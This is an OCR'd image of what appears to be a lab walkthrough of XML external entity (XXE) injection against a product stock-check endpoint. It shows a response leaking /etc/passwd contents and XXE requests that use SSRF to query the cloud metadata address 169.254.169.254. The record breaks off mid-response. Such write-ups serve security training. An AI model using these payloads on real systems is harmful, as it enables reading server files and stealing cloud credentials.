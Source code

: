 ```xml
HTTP/2 400 Bad Request
Content-Type: application/json;
charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2338
"Invalid product ID:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nol
ogin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

#### Exploit XXE Injection To Perform SSRF Attack
* Request
```xml
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM
"http://169.254.169.254/"> ]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
* Response
```xml
HTTP/2 400 Bad Request
Content-Type: application/json;
charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30
"Invalid product ID:
latest
"
```

* Request
```xml
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM
"http://169.254.169.254/latest"> ]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
* Response
```xml
HTTP/2 400 Bad Request
Content-Type: application/json;
charset=utf-8
```